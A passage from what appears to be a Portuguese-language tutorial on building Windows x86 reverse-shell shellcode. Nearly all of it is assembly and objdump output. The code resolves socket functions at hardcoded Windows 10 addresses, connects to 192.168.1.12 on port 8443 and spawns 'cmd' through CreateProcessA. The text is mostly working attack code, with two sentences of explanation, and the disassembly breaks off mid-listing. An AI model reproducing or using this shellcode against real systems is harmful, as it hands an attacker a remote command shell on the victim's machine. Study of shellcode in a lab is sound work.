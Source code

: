 ```nasm
push ebx                ; Fazendo push para bInheritHandles
dec ebx                 ; Zerando EBX
push ebx                ; lpThreadAttributes = nulo
push ebx                ; lpProcessAttributes = nulo
push ecx                ; Tornando lpCommandline um pointer para 'cmd'
push ebx                ; lpApplicationName = nulo
mov ebx, 0x752b2d90     ; Endereco da CreateProcessA() no Win10 21H1
call ebx                ; Chamando a CreateProcessA()

```

Juntando todo o código Assembly que fizemos no arquivo shellcode.asm, podemos compilar com o nasm no próprio Kali para gerar o arquivo elf shellcode.o.

```bash
$ nasm -f elf32 shellcode.asm -o shellcode.o
```

Se utilizarmos o comando “objdump” podemos ver o disassembly do codigo.

```bash
$ objdump -d shellcode.o -M intel

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   31 db                   xor    ebx,ebx
   2:   53                      push   ebx
   3:   53                      push   ebx
   4:   53                      push   ebx
   5:   b3 06                   mov    bl,0x6
   7:   53                      push   ebx
   8:   31 db                   xor    ebx,ebx
   a:   43                      inc    ebx
   b:   53                      push   ebx
   c:   43                      inc    ebx
   d:   53                      push   ebx
   e:   bb 40 71 e6 76          mov    ebx,0x76e67140
  13:   ff d3                   call   ebx
  15:   96                      xchg   esi,eax
  16:   68 c0 a8 01 0c          push   0xc01a8c0
  1b:   66 68 20 fb             pushw  0xfb20
  1f:   31 db                   xor    ebx,ebx
  21:   80 c3 02                add    bl,0x2
  24:   66 53                   push   bx
  26:   89 e3                   mov    ebx,esp
  28:   6a 10                   push   0x10
  2a:   53                      push   ebx
  2b:   56                      push   esi
  2c:   bb 10 57 e6 76          mov    ebx,0x76e65710
  31:   ff d3                   call   ebx
  33:   bb 41 63 6d 64          mov    ebx,0x646d6341
  38:   c1 eb 08                shr    ebx,0x8
  3b:   53                      push   ebx
  3c:   89 e1                   mov    ecx,esp
  3e:   31 d2                   xor    edx,edx
  40:   56                      push   esi
  41:   56                      push   esi
  42:   56                      push   esi
  43:   52                      push   edx
  44:   52                      push   edx
  45:   31 c0                   xor    eax,eax
```